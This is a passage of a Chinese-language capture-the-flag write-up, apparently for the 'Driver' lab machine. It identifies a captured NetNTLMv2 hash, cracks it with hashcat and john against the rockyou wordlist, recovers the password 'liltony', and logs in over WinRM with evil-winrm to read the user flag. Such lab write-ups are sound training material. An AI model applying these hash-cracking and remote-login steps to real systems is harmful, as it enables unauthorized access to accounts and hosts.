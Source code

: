 ```bash
nth --file digest


https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

tony::DRIVER:3925a13b425e9051:1D11CCE38B012107E5186803C3EFA21A:0101000000000000809CC
9C18FEADB01C5CCA56D5CDF3DC100000000020008004600360051004C0001001E00570049004E002D004
A004F004700530033003900300038004A0050004C0004003400570049004E002D004A004F00470053003
3003900300038004A0050004C002E004600360051004C002E004C004F00430041004C000300140046003
60051004C002E004C004F00430041004C00050014004600360051004C002E004C004F00430041004C000
7000800809CC9C18FEADB0106000400020000000800300030000000000000000000000000200000560E8
9B92C41F2159FCFA8C591B30D366CB1D5C8571AE52904511B6DEE4553220A00100000000000000000000
00000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E0035000
00000000000000000000000

Most Likely 
NetNTLMv2, HC: 5600 JtR: netntlmv2
```

```bash
hashcat --help | grep -i ntlm
5600 | NetNTLMv2                                                  | Network Protocol

hashcat -m 5600 digest /usr/share/wordlists/rockyou.txt 
```

这里虚拟机没有显卡，hashcat提示显存不足直接失败了，换了fastcrack这个小字典一样不行
##### john 破解
```bash
john --format=netntlmv2 digest --wordlist=/usr/share/wordlists/rockyou.txt --pot=driver.pot
```

`--pot`参数指定pot文件的名字，这样面对同一个文件的爆破，不同pot名称即可实现对同一个文件多次爆破

```bash
john --format=netntlmv2 digest --wordlist=/usr/share/wordlists/rockyou.txt --pot=driver.pot
liltony          (tony)
```

#### 登录winrm

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony -P 5985
```

##### user flag
查找user.txt
```powershell
Get-ChildItem -Path C:\ -Filter user.txt -Recurse -ErrorAction SilentlyContinue
```

或者使用简写: `gci -r -file c:\users`，或者使用type也可以

```powershell
type C:\Users\tony\Desktop\user.txt
```
